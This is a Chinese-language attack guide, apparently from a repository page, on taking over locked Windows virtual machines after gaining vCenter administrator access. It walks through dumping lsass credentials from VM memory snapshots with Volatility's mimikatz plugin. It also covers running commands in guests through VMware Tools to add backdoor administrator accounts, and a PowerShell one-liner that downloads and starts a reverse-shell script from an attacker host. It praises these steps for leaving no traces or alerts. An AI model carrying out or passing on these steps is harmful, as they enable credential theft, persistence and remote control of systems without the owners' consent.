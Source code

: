 ### 拿到 vCenter 管理员权限，但部分虚拟机处于锁屏状态怎么办

**1. 内存转储攻击**

这是最强大且隐蔽的攻击方式，它能让你在不与虚拟机桌面直接交互的情况下，窃取到所有已登录用户的密码

- **原理**：Windows 操作系统在运行时，会将已登录用户的明文密码、NTLM 哈希和 Kerberos 票据等凭据信息，存储在 `lsass.exe` 进程的内存中。作为 vCenter 管理员，你可以获取虚拟机的**内存快照，这个快照文件包含了虚拟机在某一时刻的全部内存数据

- **操作步骤**：

  1. 在 vCenter 界面中，找到锁屏的虚拟机

  2. 右键点击虚拟机，选择 **Snapshot -> Take Snapshot**。在弹出的窗口中，勾选 **"Snapshot the virtual machine's memory"**

  3. 等待快照完成后，找到这个快照文件（通常是 `.vmem` 或 `.vmss` 文件）。这个文件通常位于 ESXi 主机的数据存储（Datastore）上

  4. 将这个文件下载到你的攻击机

  5. 在攻击机上使用**内存取证工具**，例如 **`Volatility`**。执行命令来分析 `.vmem` 文件并提取凭据

     ```bash
     # 识别操作系统类型
     volatility -f <内存快照文件> imageinfo
     # 从lsass进程中提取密码哈希和明文密码
     volatility -f <内存快照文件> --profile=<识别出的操作系统> mimikatz
     ```

- **优点**：这种方法非常隐蔽，几乎不会在虚拟机内留下任何痕迹，也不会触发任何安全告警。即使虚拟机锁屏，你依然可以成功获取登录凭据

**2. 利用 VMware Tools 在虚拟机内执行命令**

如果虚拟机内安装了 VMware Tools，你就可以利用 vCenter 的 **`Guest Operations`** 功能，直接在虚拟机内部执行命令，而无需登录

- **原理**：VMware Tools 是一个运行在虚拟机操作系统中的服务，它与 vCenter 后台进程进行通信。这使得 vCenter 可以远程管理虚拟机，包括文件传输、脚本执行等
- **操作步骤**：
  1. 在 vCenter 界面中，找到锁屏的虚拟机
  2. 右键点击虚拟机，选择 **Guest OS -> Run Program in Guest**
  3. 在弹出的对话框中，你可以输入想要执行的命令
  4. 你可以执行以下命令来建立一个持久化的后门
     - **创建新的管理员用户**： `C:\Windows\System32\cmd.exe /c "net user newuser password /add"` `C:\Windows\System32\cmd.exe /c "net localgroup administrators newuser /add"`
     - **下载并执行反向 Shell**： `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c "iwr http://<攻击机IP>/shell.ps1 -OutFile C:\temp\shell.ps1; Start-Process C:\temp\shell.ps1"`
- **优点**：这种方法简单直接，只要虚拟机处于开机状态且 VMware Tools 运行正常，你就可以绕过锁屏，直接在内部执行命令

**3. 创建新的管理员账户**

如果上述方法都失败了，你还有终极权限——在虚拟机内创建新的管理员账户

- **原理**：利用 VMware Tools 的 `Run Program in Guest` 功能，你可以直接调用操作系统命令来创建新用户并将其添加到管理员组
- **操作步骤**：
  - 执行上面提到的 **`net user`** 和 **`net localgroup`** 命令，创建一个新的管理员账户
  - 等待命令执行成功后，你就可以使用这个新创建的账户，远程桌面连接到虚拟机，或者通过其他方式登录